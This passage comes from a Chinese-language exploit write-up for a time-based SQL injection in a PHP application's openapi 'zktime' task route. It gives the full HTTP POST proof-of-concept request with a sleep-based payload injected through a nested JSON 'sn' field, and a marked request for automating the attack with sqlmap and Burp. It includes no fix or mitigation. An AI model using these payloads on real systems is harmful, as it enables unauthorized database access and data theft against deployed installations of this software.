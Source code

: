   
按照路由构造请求url  
  
  
/index.php?m=opendkq|openapi&d=task&a=zktime  
  
  
按照sn的取值 构造两层json  
  
  
{"cn":{"sn":"123"}}  
  
  
host 为127.0.0.1  
  
### 漏洞利用  
  
#### poc  
  

```
POST /index.php?m=opendkq|openapi&d=task&a=zktime HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=p4idg1a6f9b059t7laum6m333o; deviceid=1733809734848
Connection: close
Content-Length: 34
Content-Type: application/x-www-form-urlencoded

{&#34;cn&#34;:{&#34;sn&#34;:&#34;123' and sleep(3)#&#34;}}
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF30aZL6ic4Q27Z2FNdutJFB7tmpV5WhnDxQqLhZM9cM93zTV1hj1Fh1sv4mJdicBzxjJXgIIjfapmpw/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/zBdps5HcBF30aZL6ic4Q27Z2FNdutJFB7IRfleQMwPkX2KiaSXNknJScZfqRGgzMTWLcicTlDZQRxET3drZD7P4xw/640?wx_fmt=png&from=appmsg "")  
  
#### sqlmap  
  
  
sqlmap  结合burp  修改host  
  

```
POST /index.php?m=opendkq|openapi&d=task&a=zktime HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=p4idg1a6f9b059t7laum6m333o; deviceid=1733809734848
Connection: close
Content-Length: 34
Content-Type: application/x-www-form-urlencoded

{&#34;cn&#34;:{&#34;sn&#34;:&#34;123'*&#34;}}
```
